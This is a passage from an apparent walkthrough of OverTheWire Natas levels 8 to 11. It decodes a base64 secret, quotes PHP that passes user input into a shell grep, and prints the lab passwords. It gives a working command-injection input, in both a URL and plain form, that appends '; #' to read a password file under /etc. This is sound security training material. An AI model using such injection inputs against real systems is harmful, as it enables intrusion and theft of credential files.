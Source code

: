 ==QcCtmMml1ViV3b : b3ViV1lmMmtCcQ==

Base64 decode

b3ViV1lmMmtCcQ== : oubWYf2kBq

natas9 : W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

# Level 9-10

![/assets/images/OverTheWire/Natas/Untitled%203.png](/assets/images/OverTheWire/Natas/Untitled%203.png)

[S](http://natas9.natas.labs.overthewire.org/index.php?needle=.+%2Fetc%2Fnatas_webpass%2Fnatas10%3B%23&submit=Search)ource:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Since the input is directly sent to the command, it is vulnerable to OS command injection.

Input : . /etc/natas_webpass/natas10;#

Then the command will be

grep -i . /etc/natas_webpass/natas10;# dictionary.txt

natas10 : nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

# Level 10-11

Same as level 9-10 but certain characters are filtered using preg_match function

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
```